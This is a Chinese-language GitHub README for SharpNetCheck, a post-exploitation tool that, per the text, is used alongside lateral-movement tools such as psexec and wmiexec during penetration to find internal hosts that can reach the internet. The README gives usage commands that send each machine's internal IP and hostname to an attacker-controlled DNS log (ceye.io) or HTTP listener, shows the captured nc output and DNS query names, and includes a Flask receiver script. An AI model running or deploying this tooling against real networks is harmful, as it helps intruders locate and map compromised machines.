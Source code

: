 # SharpNetCheck
在渗透过程中，对可以出网的机器是十分渴望的。在收集大量弱口令的情况下，一个一个去测试能不能出网太麻烦了。所以就有了这个工具，可配合如wmiexec、psexec等横向工具进行批量检测，该工具可以在dnslog中回显内网ip地址和计算机名，可实现内网中的快速定位可出网机器。

```
> SharpNetCheck.exe

Author: Uknow
Github: https://github.com/uknowsec/SharpNetCheck

Usage: SharpNetCheck -dns -host ceye.io
       SharpNetCheck -http -host/ip ceye.io
       SharpNetCheck -all -host ceye.io
```


## Example

`SharpNetCheck.exe -http -host xxxxx:38989/1112`

```
➜  /tmp nc -lvvp 38989
Listening on [0.0.0.0] (family 0, port 38989)
Connection from x.x.x.x 63858 received!
POST /1112/ HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: x.x.x.x:38989
Content-Length: 39
Expect: 100-continue
Connection: Keep-Alive

host=DESKTOP-KUMLA9N&ip1=172.16.242.133
```

`SharpNetCheck -all -host xxx.ceye.io`

#### HTTP Requests

```
Method: Post
Data: host=DESKTOP-KUMLA9N&ip1=172.16.242.133
```

#### DNS Query Name
```
172.16.242.133-DESKTOP-KUMLA9N.xxx.ceye.io
```


## 搭建http 回显 服务器

```
from flask import Flask, request

app = Flask(__name__)

@app.route('/')
def welcome():
    return 'Welcome'

@app.route('/register', methods=['POST'])
def register():
    print(request.headers)
    print(request.stream.read())
    return 'welcome'


if __name__ == '__main__':
    app.run(host='0.0.0.0',port=38989, debug=True)
```

然后运行 SharpNetCheck.exe

`SharpNetCheck.exe -http -host x.x.x.x:38989/register`

服务器就可以接收到post的内容

![](./flask.png)

修改 `SharpNetCheck/Program.cs` 第97行代码

`url = "http://" + url + "/";`

为

`url = "http://" + url;`
